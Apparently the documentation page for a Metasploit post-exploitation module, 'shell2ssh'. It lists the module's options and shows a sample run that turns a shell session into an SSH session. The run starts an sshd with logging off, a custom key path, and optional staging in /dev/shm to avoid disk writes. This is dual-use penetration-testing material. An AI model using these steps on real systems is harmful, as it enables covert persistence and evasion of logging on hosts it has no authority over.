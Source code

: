 This module starts a ssh server with a custom configuration whithout logging and custom path for ssh authorized_keys. This is used for logging in into this ssh server for creating another ssh session (including tty support, etc).

## Module Options

**LHOST**

IP of ssh server to connect to. If not defined IP is taken from metasploit session

**SSHD_PATH**

Full path of the sshd binary. If not definded a (short) list of typical installations is checked which usually finds the binary.

**SSHD_PORT**

Port number the SSH Server should listen. Default is 2222

**USERNAME**

The username for logging into the ssh server. If not definded `whoami` is executed and used as username.

**WRITEDIR**

Path of a directory the current user has write permissions (by default /tmp will be used). On Linux often /dev/shm can be used for avoiding saving files to disk.

**SESSION**

Which session to use, which can be viewed with `sessions -l`

## Scenario
```
msf post(shell2ssh) > set SESSION 1
SESSION => 1
msf post(shell2ssh) > set VERBOSE true
VERBOSE => true
msf post(shell2ssh) > set LHOST 127.0.0.1
LHOST => 127.0.0.1
msf post(shell2ssh) > run

[*] Getting current username
[*] Getting writeable directory
[*] Getting path of sshd
[*] Generating SSH key
[+] SSH Key is stored in /home/user/.msf4/loot/20000001000607_default_1_ssh_key_843400.txt
[*] Generating SSHD config
[*] Uploading SSHD config
[*] Max line length is 4096
[*] Maximal line length: 4096
[*] Testing a command for echo: echo '00fffe414243447f25250a4546'|xxd -p -r
[*] Found a command for echo: echo '00fffe414243447f25250a4546'|xxd -p -r
[*] Writing 551 bytes in 1 chunks of 1102 bytes (bare_hex-encoded), using xxd
[*] Maximal line length: 4096
[*] already found a command for echo: echo 'CONTENTS'|xxd -p -r
[*] Writing 1675 bytes in 2 chunks of 2006 bytes (bare_hex-encoded), using xxd
[*] Next chunk is 1344 bytes
[*] Maximal line length: 4096
[*] already found a command for echo: echo 'CONTENTS'|xxd -p -r
[*] Writing 1228 bytes in 2 chunks of 2006 bytes (bare_hex-encoded), using xxd
[*] Next chunk is 450 bytes
[*] Maximal line length: 4096
[*] already found a command for echo: echo 'CONTENTS'|xxd -p -r
[*] Writing 380 bytes in 1 chunks of 760 bytes (bare_hex-encoded), using xxd
[*] Starting SSHD ("/usr/sbin/sshd -q -f  /dev/shm/cOtBBzVY")

[+] SSHd started
[+] SSHd running
[+] To login manually you run:
ssh -i /home/user/.msf4/loot/20000001000607_default_1_ssh_key_843400.txt  -p 2222 user@127.0.0.1 -o UserKnownHostsFile=/home/user/.msf4/loot/20000001000607_default_1_sshd_pub_462916.txt
__LOG default
[*] Logfile: /tmp/staekka_log_ssh_user@127.0.0.1:2222_587
[*] SSH Session session 2 opened (127.0.0.1 -> 127.0.0.1) at 2000-01-01 10:01:14 +0200
[*] Post module execution completed
msf post(shell2ssh) > sessions

Active sessions
===============

  Id  Type        Information  Connection
  --  ----        -----------  ----------
  1   shell unix  PTY:         local -> PTY: /bin/bash (::1)
  2   shell unix  SSH:         127.0.0.1 -> 127.0.0.1 ()

```
